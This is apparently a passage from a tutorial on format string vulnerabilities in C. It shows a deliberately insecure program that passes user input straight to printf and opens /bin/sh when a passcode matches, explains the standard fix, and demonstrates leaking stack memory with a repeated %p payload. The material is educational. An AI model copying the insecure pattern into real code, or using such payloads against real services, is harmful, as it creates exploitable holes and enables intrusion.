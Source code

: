 ```c

    printf("Enter a string: ");
    fgets(input, BUFSIZE, stdin);
    printf(input);

    printf("Enter the passcode: ");
    fgets(input, BUFSIZE, stdin);
    if(strncmp(code, input, CODESIZE - 1) == 0) {
        system("/bin/sh");
    } else {
        printf("Incorrect. The correct passcode was %s.\n", code);
    }

    return 0;
}
```

In the code shown above, we have a function called `generate_code()` that randomly generates a passcode with a length of `CODESIZE`. In the `main()` function, we see that the user is prompted to enter a string and a passcode. If the passcode that the user types in is equivalent to the passcode that was randomly generated from the call to `generate_code()`, then the user will get a shell. The passcode is generated at runtime and changes every time the program is executed, so we can't just use the `strings` command to print it out.

```sh
$ gcc -o mem_leak mem_leak.c

$ ./mem_leak
Enter a string: hello
hello
Enter the passcode: idk
Incorrect. The correct passcode was E6UZdbLnODrjJD1lcb77ZKCzchHd92JBydaR3l2FmhotkdSA2.
```

One thing that should stick out to you is the line that says `printf(input)`. This is considered to be an insecure method of printing out C strings because if the user types in a format specifier, then the program will actually try to interpret that format specifier. For example, if the user types in "%d" as input, then the line will get reinterpreted as `printf("%d")`, which will cause the next value on the stack to be printed out as an `int`. In situations where we cannot attach debuggers (such as when we're exploiting remote targets), we can use this vulnerability to print out the values that are on the stack.

Note: The vulnerability would have been mitigated if the line was written as `printf("%s", input)`. The `printf()` function will ignore any format specifiers inside of `input` if it is passed through as a string using the "%s" format specifier.

The `code` variable is currently being stored on the stack, so why don't we just try printing it out using the format string vulnerability? We can send the target a bunch of "%p" format specifiers and separate them by periods. This will cause data on the stack to get printed out in hexadecimal format. We can then view the actual passcode and compare it with what we found on the stack.

```sh
$ ./mem_leak
Enter a string: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
0x55e7ea1856b1.(nil).0x55e7ea1856de.0x7ffe3103ec90.0x7fc1cb69fbe0.0x7ffe3103eeb8.0x100000000.0x535057476d636630.0x5765597550545371.0x766447786c795434.0x324b654261473234.0x6d54723644656d37.0x3545554273326d39.0x6c.(nil).
Enter the passcode: incorrectpasscode
Incorrect. The correct passcode was 0fcmGWPSqSTPuYeW4TylxGdv42GaBeK27meD6rTm9m2sBUE5l.
```
